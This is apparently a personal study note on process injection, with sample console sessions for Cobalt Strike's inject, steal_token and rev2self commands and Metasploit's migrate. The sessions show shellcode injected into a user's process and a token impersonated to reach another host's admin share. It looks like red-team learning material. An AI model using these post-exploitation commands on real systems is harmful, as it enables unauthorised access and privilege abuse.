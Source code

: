 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Process Injection]]  
___

## Description:  

### In Cobalt Strike

The `inject` command will inject a Beacon payload in the form of shellcode into a target process. You can inject into processes owned by the current user without needing elevation, but local admin privileges are required to inject into processes owned by other users. If you inject into a process owned by a different user, your Beacon will run with all the local and domain privileges of that user.


```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231

```


The `steal_token` command will impersonate the access token of the target process. Like `make_token`, it's good for access resources across a network but not local actions. Use `rev2self` to drop the impersonation. This command opens a handle to the target process in order to duplicate and impersonate the access token, and therefore requires local admin privileges.

```
beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated DEV\jking

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys

beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes

```

### In Metasploit

When we compromise a host, our meterpreter payload is executed inside the process of the 
application we attack. If the victim closes that process, our access to the machine is closed as well.

```
meterpreter > ps

meterpreter > migrate 3568
[*] Migrating from 3164 to 3568...
[*] Migration completed successfully.
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:43 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
